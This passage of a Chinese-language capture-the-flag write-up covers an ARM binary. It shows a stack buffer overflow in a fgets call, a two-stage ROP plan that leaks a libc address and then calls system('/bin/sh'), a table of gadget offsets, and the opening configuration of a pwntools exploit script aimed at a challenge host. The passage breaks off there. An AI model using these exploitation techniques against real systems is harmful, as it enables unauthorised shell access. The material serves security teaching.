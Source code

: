 
> **小结**：口令并非简单的 Leet（1337）翻译，而是二进制里定义的自定义换表映射结果。

---

### 四、漏洞点 & 利用思路

1. **漏洞函数**
    
    ```
    char buf[0x2c];
    printf("comment> ");
    fgets(buf, 0x100, stdin);   // 超出 buf 大小，无长度检查
    process(buf);
    ```
    
    - **缓冲区溢出**：`buf` 只有 44 字节，却读入更多数据
        
    - **无 Canary**，可覆盖返回地址
        
    - **NX** 启用，需 ROP
        
2. **ROP 利用总体思路**
    
    - **第一阶段**：`puts(puts@got)` 泄露 libc 中 `puts` 的真实地址
        
    - **第二阶段**：`system("/bin/sh")`，拿到交互 shell
        
3. **ARM 调用约定**
    
    - 第 1 个参数放在 `r0`，第 2 个参数放在 `r1`
        
    - 使用 `mov r0, r7; blx r3` 可把我们写入 `r7` 的值作为第 1 个参数，再跳到 `r3` 执行
        

---

### 五、关键 Gadget & 地址

|名称|偏移|功能|
|---|---|---|
|`pop {r4,r5,r6,r7,r8,sb,sl,pc}`|`0x10CB0`|一次性修改 r4–r7 等并跳转 pc|
|`pop {r3,pc}`|`0x10464`|修改 r3 并跳转 pc（设置函数地址）|
|`mov r0, r7; blx r3`|`0x10CA0`|调用 `r3(r0)`|
|程序入口（Entry，即 `main`）|`0x1050C`|泄露后返回，再次认证|

`elf.entry` 即为 `0x1050C`，程序加载基址固定。

---

### 六、完整 Exploit 脚本（`exp.py`）

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

# —— 配置区 —— 
BINARY    = './chall'
LIBC      = './libc-2.27.so'
HOST,PORT = '110.42.47.169', 35968

context.arch      = 'arm'
context.os        = 'linux'
context.endian    = 'little'
context.log_level = 'info'  # debug 时用 'debug'

# 本地调试： python3 exp.py LOCAL=1
```